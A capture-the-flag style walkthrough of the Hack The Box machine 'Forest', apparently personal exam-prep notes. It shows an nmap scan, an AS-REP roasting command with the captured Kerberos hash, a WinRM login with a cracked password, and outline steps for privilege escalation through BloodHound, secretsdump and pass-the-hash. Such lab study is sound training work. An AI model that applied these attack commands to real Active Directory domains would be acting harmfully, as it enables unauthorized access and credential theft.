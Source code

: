 ```nmap 10.10.10.161 -p- -O -sV -sC -f -oA forest```

# Run bruteforce

# Check for public list of TGTs (Ticket-Granting Ticket)
## Use GetNPUsers
```impacket-GetNPUsers -dc-ip 10.10.10.161 -format hashcat -request 'htb.local/'```

$krb5asrep$23$svc-alfresco@HTB.LOCAL:072317c6ef504dc228ccf5090f930b37$af5e8e81cb9ad3234bb4c015bd8c8fdd98f9bdaffce467f92b6383fb0c34d6d8aff83e6fc09e4a0dddfd85499517c0303e98c04cf7bfe503cb5f1f31667afee0b28e6ad99b744697e28ab70a4951f50e39ba088b22600d88caefcce0758fea80c9f9003507063d7510cb9f225f49f9979a708a572d1e076efb9125b4459da51593d9c9aeba72219e72a53e6a378726257f2a4f828d6471098772ef7b3e2caef4c02465c814ff5fe470c78bd33023dfecd323d3d703b2f9112c28dc9c86f25032a0e05be2e8baeae2e603dd3e598918c3587d24b5f873fff4aae67dcd8c956e05e5578dd84c33
## The hash I received kept changing and I had to keep debugging ... If this happened on the exam I would have failed because I would be getting unreliable hashes
## Was the wordlist that was the problem ...

# SMB with creds
## There is read access to two network shares, but no real information revealed

# Initial Foothold WinRM with creds
## Initially this remote management would have been impossible, but because we have credentials we can get an initial shell.
```evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice```

We can get the user flag now.


# Privilege Escalation
## Bloodhound
## Searched for AD group connections and their privileges
## Created attacker account on AD that could read hashes
## Used PowerView.ps1 to leverage PowerShell scripts
## Impacket-Secretsdump to dump the hashes
## Pass the Hash to get Admin Shell

## Impacket-Ticketer has outdated package dependencies